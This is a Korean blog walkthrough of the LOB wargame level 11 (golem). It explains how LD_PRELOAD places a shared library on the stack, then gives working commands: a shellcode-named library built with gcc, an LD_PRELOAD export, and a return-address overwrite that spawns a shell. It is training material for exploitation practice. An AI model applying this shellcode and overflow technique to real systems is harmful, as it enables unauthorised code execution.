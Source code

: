 ```yaml
---
title:  "[LOB] level 11: skeleton >> golem "

categories: lob
tags: [lob]

toc: true
toc_sticky: true

date: 2021-12-24 07:41:42

---
```

\xff 를 \x00으로 인식하는 오류를 피해 bash2를 사용합니다

# level 11

**skeleton / shellcoder**

golem.c 코드 읽기  
![image](https://user-images.githubusercontent.com/69203345/147309758-5e6dfddd-50fb-4876-8a1d-e8b261f2ad94.png)

1. argv는 2개 이상 입력  
2. argv[1][47]번째 바이트는 '\xbf'여야 함  
3. buffer이후 stack 모든영역 사용불가

이번 문제는 공유 라이브러리를 알고있어야 한다  
공유라이브러리는 프로그램이 시작되면 메모리에 로드되는 라이브러리로, 유닉스/리눅스의 경우에는 LD_PRELOAD환경변수에 지정된 공유 라이브러리가 먼저 로드된다.  
다른 라이브러리의 함수와 LD_PRELOAD에 지정된 라이브러리 함수가 서로 이름이 똑같을 경우 라이브러리 적재 순서에 의해 LD_PRELOAD가 실행된다  
LD_PRELOAD를 이용하는 이유는 스택상에 LD_PRELOAD의 파일명이 올라오고, 저번문제에서 파일 이름이 마지막 메모리에 기록 됐듯이, LD_PRELOAD도 불려오게 되면 스택에 기록이 된다

낮은주소

code  
data  
bss  
heap  
공유라이브러리  
buffer  
sfp  
ret  
argc  
argv  
env

높은주소

LD_PRELOAD 환경변수 등록방법:  
빈 파일을 만든후 shellcode로 컴파일한다  
- fPIC 옵션: Position-Independent Code의 약자, CPU에 관계없이 동작하도록 컴파일한다
- shared 옵션: 우선 공유 라이브러이와 링크하고, 공유 라이브러리가 없으면 정적 라이브러리와 링크한다 
- 반드시 절대 경로로 파일명을 지정해야 오류가 발생하지 않는다

>gcc -fPIC -shared a.c -o \`python -c 'print "\x90"*100+"\xeb\x11\x5e\x31\xc9\xb1\x32\x80\x6c\x0e\xff\x01\x80\xe9\x01\x75\xf6\xeb\x05\xe8\xea\xff\xff\xff\x32\xc1\x51\x69\x30\x30\x74\x69\x69\x30\x63\x6a\x6f\x8a\xe4\x51\x54\x8a\xe2\x9a\xb1\x0c\xce\x81"'`

![image](https://user-images.githubusercontent.com/69203345/147317124-1645b09f-a035-4f4f-9614-9045e58c47f4.png)

이제 환경변수 LD_PRELOAD 에 등록해준다  
>export LD_PRELOAD=/tmp/\`python -c 'print "\x90"*100+"\xeb\x11\x5e\x31\xc9\xb1\x32\x80\x6c\x0e\xff\x01\x80\xe9\x01\x75\xf6\xeb\x05\xe8\xea\xff\xff\xff\x32\xc1\x51\x69\x30\x30\x74\x69\x69\x30\x63\x6a\x6f\x8a\xe4\x51\x54\x8a\xe2\x9a\xb1\x0c\xce\x81"'`

이제 gdb로 golem을 확인하면 LD_PRELOAD에 의해 공유라이브러리 영역에 쉘코드가 들어가 있을 것이다
gdb로 위치를 확인해보자  
![image](https://user-images.githubusercontent.com/69203345/147319328-6e99d8b5-34c0-42a6-b0f8-eaa746c452b4.png)
![image](https://user-images.githubusercontent.com/69203345/147330321-af0f1a83-2ef0-4b72-8f0a-f4e7f4363de3.png)  
0xbffff5dc를 리턴 주소로하겠다

>./golem \`python -c 'print "A"*44+"\xdc\xf5\xff\xbf"'`

![image](https://user-images.githubusercontent.com/69203345/147330394-80a1ed09-b81d-4dd2-9478-976580e9fcde.png)

---
x/12x $esp등으로 esp의 위치를 먼저 알고가도 찾는데 편하겠다( 공유라이브러리는 esp보다 작은 주소에 위치할것이기 때문)